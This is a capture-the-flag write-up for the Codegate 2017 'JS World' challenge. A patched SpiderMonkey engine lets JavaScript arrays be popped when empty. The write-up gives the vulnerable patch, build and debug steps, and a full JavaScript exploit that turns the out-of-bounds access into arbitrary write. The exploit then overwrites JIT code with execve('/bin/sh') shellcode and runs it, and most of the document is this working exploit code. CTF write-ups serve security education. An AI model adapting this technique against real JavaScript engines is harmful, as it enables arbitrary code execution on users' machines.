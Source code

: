 # Codegate 2017 Qual: JS World

## Setting up Environments

### Patch

/mozjs-24.2.0/js/src/jsarray.cpp
```cpp
1946     /* Steps 4-5. */
1947     if (index == 0) {
1948         /* Step 4b. */
1949         args.rval().setUndefined();
1950     } else {
----
1946     /* Steps 4-5. */
1947     if (false) {
1948         /* Step 4b. */
1949         args.rval().setUndefined();
1950     } else {
```

```cpp
1967     if (obj->isNative() && obj->getDenseInitializedLength() > index)
1968         obj->setDenseInitializedLength(index);
----
1967     if (obj->isNative())
1968         obj->setDenseInitializedLength(index);
```

### Build

```
$ mkdir mozilla
$ cd mozilla
$ wget http://ftp.mozilla.org/pub/mozilla.org/js/mozjs-24.2.0.tar.bz2
$ tar xjf mozjs-24.2.0.tar.bz2
$ CXXFLAGS="-fpermissive" ../mozjs-24.2.0/js/src/configure
```

### Debug

/mozjs-24.2.0/js/src/jit/BaselineJIT.cpp

```cpp
104     printf("jitcode Address: %lx\n", data.jitcode);
```

---

## Exploit

### Vulnerability

We patched jsarray to not check array length is 0.
So we can pop from empty array that makes arbitary read/write.

```js
a = []
a.pop()
print("length: " + a.length)
for(var i = 300; i < 350; i++)
    print(a[i])
```

### Debug

Call `Math.atan()` and set breakpoint in gdb `b *js::math_atan`  
Argument is in `vp+0x16`

```js
a = [0x41414141, 0x51515151, 0x61616161]
a.length = 0xdeadbeef
print("length: " + a.length)
Math.atan(a)
```

### PoC

```js
function dtoi(d) {
    const i = new Uint32Array(new Float64Array([d]).buffer);
    return [i[1], i[0]];
}

function itod(i) {
    return new Float64Array(new Uint32Array([i[1], i[0]]).buffer)[0];
}

function hex(i) {
    const v0 = ("00000000" + i[1].toString(16)).substr(-8);
    const v1 = ("00000000" + i[0].toString(16)).substr(-8);
    return "0x" + v1 + v0;
}

function unhex(h) {
    const i0 = parseInt(h.substr(10, 8), 16);
    const i1 = parseInt(h.substr(2, 8), 16);
    return [i1, i0];
}

function shell() {
    version();
}

oob_arr = [0x1111];
arr = [0xdeadbeef];

oob_arr.pop();
oob_arr.pop();

print(oob_arr.length);

arr_offset = 0;
for(let i = 0; i < 0x100; i++) {
    if(hex(dtoi(oob_arr[i])) == "0x41ebd5b7dde00000") { // double(0xdeadbeef)
        arr_offset = i-3;
        print("[+] Arr Offset Found: " + arr_offset + " " + hex(dtoi(oob_arr[arr_offset])));
        break;
    }
}

for(let i = 0; i < 20; i++) {
    shell();
}

jitaddr_offset = 0;
for(let i = 0; i < 0x10000; i++) {
    if(hex(dtoi(oob_arr[i])) == "0x0000015000000161") {
        jitaddr_offset = i-2;
        print("[+] JIT Addr Offset Found: " + jitaddr_offset + " " + hex(dtoi(oob_arr[jitaddr_offset])));
        break;
    }
}

function write8(addr, value) {
    oob_arr[arr_offset] = itod(addr);
    arr[0] = itod(value);
}

shellcode = "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"

while(shellcode.length % 8)
    shellcode += "\x90"

addr = dtoi(oob_arr[jitaddr_offset]);

for(let i = 0; i < shellcode.length; i+=8) {
    let sc_block = "0x";
    for(let j = 7; j >= 0; j--) {
        sc_block += ("00" + shellcode.charCodeAt(i+j).toString(16)).substr(-2);
    }

    write8(addr, unhex(sc_block));
    addr[1] += 8;
}

shell();
```

---

## Reference

- https://bpsecblog.wordpress.com/2017/04/27/javascript_engine_array_oob/